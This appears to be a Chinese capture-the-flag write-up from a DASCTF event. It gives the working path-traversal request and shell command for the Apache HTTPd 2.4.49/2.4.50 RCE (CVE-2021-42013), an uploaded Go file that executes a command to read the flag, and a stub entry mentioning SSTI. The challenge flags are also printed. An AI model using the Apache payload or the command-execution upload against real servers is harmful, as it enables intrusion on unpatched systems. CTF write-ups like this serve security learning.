 [CVE-2021-42013 Apache HTTPd 2.4.49 2.4.50 路径穿越以及RCE漏洞](https://www.cnblogs.com/L0ading/p/15406905.html)

抓包然后

```
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
```

```
echo;cat /diajgk/djflgak/qweqr/eigopl/fffffflalllallalagggggggggg
```

![imagee6f1a029f79e3fee.png](https://z4a.net/images/2022/05/25/imagee6f1a029f79e3fee.png)

DASCTF{6e919d79-7742-4e38-a323-6b02d2041055}

# hackme

![image58d6aa7fd8a441e3.png](https://z4a.net/images/2022/05/31/image58d6aa7fd8a441e3.png)

一些go文件，点了会有回显，可以上传go文件，写一个命令执行

```
package main

import (
	"fmt"
	"os/exec"
)
func reverseshell() {
	out, _ := exec.Command("cat", "/flag").Output()
	output := string(out[:])
	fmt.Println(output)
}
func main() {
	reverseshell()
}
```

然后上传，访问usres，得到flag

![image57124835ffcfae0d.png](https://z4a.net/images/2022/05/31/image57124835ffcfae0d.png)

```
DASCTF{b5ce4552-3855-4243-81c4-3f4a14b8f18f}
```

# fxxkgo

这道题是基于go语言的

代码审计

ssti
